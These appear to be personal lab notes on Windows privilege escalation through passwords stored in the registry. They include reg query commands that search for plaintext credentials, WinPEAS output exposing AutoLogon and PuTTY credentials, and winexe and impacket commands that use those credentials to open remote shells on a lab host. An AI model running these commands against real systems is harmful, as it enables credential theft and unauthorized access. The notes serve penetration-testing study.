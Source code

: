 #windows #privesc #registry #password #cmd 

Even administrators re-use their passwords , or leave their passwords on systems in readable locations.

Windows can be especially vulnerable to this, as several features of Windows store passwords insecurely.

# Registry

Plenty of programs store configuration options in the Windows Registry.
Windows itself sometimes will store passwords in plaintext in the Registry.
It is always worth searching the Registry for passwords.

```cmd
reg query HKLM /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s
```

This usually generates a lot of results , so often it is more fruitful to look in known locations.

## 1 - Enumerate win WinPeas 

```bash
[+] Looking for AutoLogon credentials(T1012)                                       
    Some AutoLogon credentials were found!!                                       
    DefaultUserName               :  admin                                       
    DefaultPassword               :  password123
```

Some AutoLogon credentials for the Admin user and password

```bash
[+] Putty Sessions()
    SessionName: BWP123F42
    ProxyPassword: password123
    ProxyUsername: admin
```

And Putty Session and again with the username admin and the same password

We can verify manually by query the registry :

```cmd
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

And for the puTTy Session 

```cmd
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```

### Spawn a shell via SMB 

```bash
winexe -U 'admin%password123' //192.168.145.182 cmd.exe
```

 With impacket 
```bash
impacket-psexec admin:password123@192.168.145.182

impacket-wmiexec admin:password123@192.168.145.182 "ipconfig"

```

Don't work




# Saved Creds

Windows has a runas command which allows users to run commands with the privileges of other users.

This usually require the knowledge of the other user's password.
However , Windows also allows users to save their credentials to the system, and these saved credentials can be used to bypass this requirement.





  